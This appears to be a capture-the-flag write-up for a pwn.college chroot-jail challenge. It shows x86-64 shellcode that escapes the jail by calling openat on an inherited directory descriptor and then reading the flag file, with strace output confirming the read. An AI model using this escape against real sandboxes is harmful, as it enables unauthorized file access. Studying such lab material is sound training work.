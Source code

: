 ```c
assert(chroot(jail_path) == 0);

puts("Moving the current working directory into the jail.\n");
assert(chdir("/") == 0);
```

That means we cannot just `../../flag` our way to getting the flag.

Fortunately, there is `openat` syscall in linux which takes as input a directory file descriptor and then the path of the file to be opened relative to the directory.

```c
int openat(int dirfd, const char pathname, int flags, mode_t mode);
```

In our case, the `dirfd` will be `3`, the first three being STDIN, STDERR and STDOUT.

The `openat` syscall would look something like this:

```armasm
# Openat syscall
mov rdi, 3
lea rsi, [rip + flag]
mov rdx, 0
mov r10, 0
mov rax, 0x101
syscall

flag:
.string "flag"
```

Note that I specified `flag` and not `/flag` because that would reference the file inside `jail/`.

The result of the `openat` syscall is a file descriptor.

We can check it's value in the practice mode using `strace` which traces every system call.

```
$ sudo strace /challenge/babyjail_level3 / < /home/hacker/shellcode.bin

---snip---;
openat(3, "flag", O_RDONLY)             = 4
read(4, "pwn.college{practice}\n", 1000) = 22
---snip---;
```

This result is stored in `$rax` as is the case with most syscall that return a value.

```armasm
# Read syscall
mov rdi, rax
mov rsi, rsp
mov rdx, 1000
mov rax, 0x00
syscall
```
